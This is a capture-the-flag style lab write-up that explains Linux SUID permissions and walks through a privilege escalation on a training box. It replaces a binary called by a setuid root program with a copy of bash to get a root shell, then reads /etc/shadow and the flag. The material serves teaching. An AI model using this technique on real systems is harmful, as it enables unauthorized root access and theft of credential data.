 - In addition to the three main file access permissions (read,write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner UserID) permission.
- When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or the binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions. It is to be noted, however, that the provision of elevated privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
- This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors
	- Owner of the SUID binary - Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the "root" user or other privileged users
	- Access permissions -  We will require executable permissions in order to execute the SUID binary.

---
Vulnerable **[setuid programs](https://en.wikipedia.org/wiki/Setuid)** on Linux systems could lead to privilege escalation attacks. In this lab, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in your home directory **welcome** and **greetings** which might be vulnerable. 

**Your mission:**

1. Get as root shell on the system
2. View /etc/shadow
3. Retrieve the flag.

Note: Development tools e.g. gcc is installed on the system already.

At first we are provided with the low level access and we can see that here

```
student@attackdefense:~$ whoami
student
student@attackdefense:~$ groups
student
student@attackdefense:~$ pwd
/home/student
```

And we have two binaries located on our home directory

```
student@attackdefense:~$ ls -la
total 36
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
student@attackdefense:~$ ./welcome
Welcome to Attack Defense Labs
```

As we can see we only do have access to run the binary welcome not the other one and no way to access the root folders. Let us go ahead and try to see the dependencies of the welcome directory.

```
student@attackdefense:~$ file welcome
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```
student@attackdefense:~$ strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
;*3$"
GCC: (Ubuntu 7.3.0-16ubuntu3) 7.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7696
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
welcome.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

By listing the dependencies we can see it is indirectly calling the other binary in the home folder. Let us delete the greetings binary and create a new shell with the same name so we can use that to login as root user.

```
student@attackdefense:~$ rm greetings
rm: remove write-protected regular file 'greetings'? y
student@attackdefense:~$ cp /bin/bash greetings
student@attackdefense:~$ ./welcome
root@attackdefense:~# whoami
root
root@attackdefense:/# id
uid=0(root) gid=999(student) groups=999(student)
root@attackdefense:/# cat /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17796::::::
root@attackdefense:/root# ls
flag
root@attackdefense:/root# cat flag
b92bcdc876d52108778e2d81f3b01494
```

